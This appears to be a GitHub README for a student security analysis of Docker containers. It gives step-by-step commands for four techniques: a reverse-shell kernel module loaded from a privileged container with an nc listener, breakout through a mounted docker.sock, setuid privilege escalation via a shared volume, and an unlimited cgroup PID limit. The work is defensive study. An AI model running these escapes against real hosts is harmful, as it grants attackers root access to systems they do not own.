 # Security Analysis of Containerizd Applications

> A security analysis conducted on containerised applications in virtualised environments.

## Introduction

Containerization is defined as a form of operating system virtualization, through which applications are run in isolated user spaces called containers, all using the same shared operating system (OS).The concept of Containerization is used in many fields such as DevOps, Microservice Architecture, Web servers and Database Sharding. This makes security a major concern.

This aim for this project is to conduct a Security Analysis of Containerized Applications in Virtualized Environments to check for vulnerabilities in the host Operating System by using several methods such as inspecting the Network bridge between the Virtualized and Host Operating System, Figuring Kernel Level Virtualization Errors, Creating a Malicious Application and Test a proof of concept, if the Host OS can be accessed from a container that is running in a virtualized environment.

 > Containerization Tool used for this Analysis is Docker

## Attack Vectors

### Modifying Kernel Space using --privileged flag

> This attack is to simulate Container Breakout and the process through which an attacker who has gained access of a Container running on a System can get access to a system can load a kernel module on to the Host Kernel Space through the Container to get a reverse shell session of the Host file System mounted on the root directory.

**Steps**

1. Change the directory to *reverseshell* and run the command *make* to build the Kernel File.
   ```bash
   cd reverseshell
   make
   ```
2. Start a Python Server in the *reverseshell* directory using the command:
   ```bash
   python3 -m http.server
   ```
3. On a New Terminal Tab Run a Base container (here alpine) with a privileged flag and start a shell session in it using the command:
   ```bash
   docker run --rm --privileged -it alpine sh
   ```
4. Fetch the Kernel File from the server started in Step 2 using the command 
   ```bash
   wget http://172.17.0.1:8000/reverseshell_module.ko
   ```
5. Give Executable Permission to the Kernel File inside the Container using the command 
   ```bash
   chmod +x reverseshell_module.ko
   ```
6. On a New Terminal Start a Port listener on Port number 4444 as specified in the Kernel Module C Program using the command: 
   ```bash
   nc -nlvp 4444
   ```
7. Inside the Container shell of Step 3 write the Kernel Module into the Kernel Space using the command:
   ```bash
   insmod reverseshell_module.ko
   ```
**Result**

> Upon following the above a Shell session of the Host File System mounted on the root directory is received on the Port listener. This even provides privileges to access, read and modify files through the reverse shell session. This can be classified as a high level vulnerability.

---

### Container Breakout through Docker Socket

> This attack is to simulate how container breakout can be performed using docker.sock mount through which an attacker that has access to the Container can start another Container mounted on the host Root directory to access the Host file system.

**Step**

1. Start a Docker Container mounted on the Docker socket file at `/var/run/docker.sock` using the command:
   ```bash
   docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock alpine sh
   ```
2. Check for the docker.sock file in the Container File System through the command:
   ```bash
   ls /var/run/docker.sock
   ```
3. Update apk and install docker engine on the Container file system to start another container on the Host from inside a Container namespace through the commands:
   ```bash
   apk update
   apk add -U docker
   ```
4. Start a new container by explicitly defining the docker socket extension using the command:
   ```bash
   docker -H unix:///var/run/docker.sock run -it -v /:/test:ro -t alpine sh
   ```

**Result**

> The container started from inside the namespace of another container mounted on the root directory of the host and stored in the test directory of the container file system provided a medium to access the host file system. It is a Read Only File System so it can be classified as a Low graded High Level Vulnerability as it has access to host file system data but, cannot make any modifications.

---

### Privilege Escalation using volume mounts

> Docker daemon requires root privileges to perform some if it’s operations so it runs with root privileges. If a user is part of the Docker Group it is possible for them to elevate their privileges to root. This can be done through Docker volumes and setuid binaries. Docker volumes are a way to provide persistent storage to Docker Containers. When a binary is created and a setuid bit is set on it, it continues to run as root even when a low privileged user uses it.

**Steps**

1. Change the directory to privesc and build the Docker image with the command:
   ```bash
   docker build --rm -t privesc .
   ```
2. Build the Docker container by mounting the */tmp* directory of the host to the */shared* directory of the Container and executing the shellscript.sh using the command:
   ```bash
   docker run -v /tmp:/shared/ privesc:latest /bin/sh shellscript.sh
   ```
3. Navigate to the /tmp directory and execute the shell which gives us a bash shell session with root privileges

**Result**

> The reason it will be possible to gain root privileges is because a volume was mounted from the host to the container and containers run with root privileges by default. The shell executable set the user id to 0 and gave us a bash shell so essentially we setuid binary of a volume which appears as the setuid binary of the host.

---

### Control Group Vulnerability

> Control groups are a feature of the Linux Kernel. It allows to limit the access processes and containers have to system resources such as CPU, RAM, IOPS and network. Here our concern is to limit the PIDs to prevent fork bomb attack.

**Steps**

1. Start a base alpine container using the command:
   ```bash
   docker run -itd --name=cgroups alpine
   ```
2. Navigate to the directory names `/sys/fs/cgroup/pids/docker/` followed by the SHA key returned in Step 1
3.  Examine the contents of the pids.max file

**Result**

> Here it is set to max which means we can fork unlimited processes from this container which can be catastrophic if the container is attacked and the attacker decides to run a fork bomb attack to exhaust all System resources which might result in System failure, which can be a financial disaster in Multinational Companies providing services.
